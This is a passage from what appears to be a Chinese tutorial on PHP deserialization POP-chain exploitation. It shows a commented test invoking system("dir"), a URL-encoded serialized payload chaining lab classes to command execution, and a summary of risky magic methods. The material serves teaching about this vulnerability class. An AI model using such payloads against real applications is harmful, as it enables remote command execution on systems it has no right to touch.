 ```php

// 测试Rose类命令执行
// $a = new Rose();
// $a->var1 = 'system("dir");';
// echo $a();
?>
```
注意运行结果包含 private 成员变量的序列化，所以需要urlencode编码转换，或者自己抓包改成%00。
```shell
O%3A7%3A%22Titanic%22%3A2%3A%7Bs%3A6%3A%22people%22%3BO%3A4%3A%22Jack%22%3A1%3A%7Bs%3A12%3A%22%00Jack%00action%22%3BN%3B%7Ds%3A4%3A%22ship%22%3BO%3A4%3A%22Love%22%3A1%3A%7Bs%3A3%3A%22var%22%3BO%3A4%3A%22Rose%22%3A2%3A%7Bs%3A4%3A%22var1%22%3Bs%3A14%3A%22system%28%22dir%22%29%3B%22%3Bs%3A4%3A%22var2%22%3BN%3B%7D%7D%7D
```

## 0x03 总结
- 从入口和出口点出发，逐步溯源，直到构成POP利用链。
- 优先关注一些常出现反序列化漏洞的魔术方法和函数，如`__destruct`、`__wakeup`、`__call`、`__invoke`、`__toString`、`__get`、`__set`、`eval()`、`call_func_user()`、`include()`等。
- 注意protected、private、public成员变量序列化的区别。


## 0xff 参考

[经验分享 | PHP-反序列化（超细的）](https://mp.weixin.qq.com/s/qwYTWPi1KXebl4XAaHAS0w)
[PHP反序列化漏洞——漏洞原理及防御措施](https://blog.csdn.net/cldimd/article/details/104999404)